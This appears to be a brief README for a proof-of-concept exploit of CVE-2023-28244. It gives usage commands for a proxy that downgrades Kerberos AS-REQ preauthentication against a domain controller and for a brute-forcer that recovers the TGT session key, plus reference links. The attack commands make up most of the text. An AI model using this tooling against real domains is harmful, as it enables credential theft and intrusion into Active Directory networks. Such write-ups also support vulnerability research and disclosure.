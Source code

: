 ### Description
```
Downgrade attack on AS-REQ preauthentication to recover the TGT session key
```

### Start listener to downgrade AS-REQ preauthentication
```
./poc-proxy --liten 0.0.0.0:80 --remote <domainController>:88
```

### Brute-Force TGT session key
```
./poc-brute-key --realm <domain> --username <user> --filepath <file>.bin <domainController>
```

### References
* https://terrapinlabs.io/posts/cve-2023-28244/
* https://github.com/sk3w/cve-2023-28244
* https://googleprojectzero.blogspot.com/2022/10/rc4-is-still-considered-harmful.html

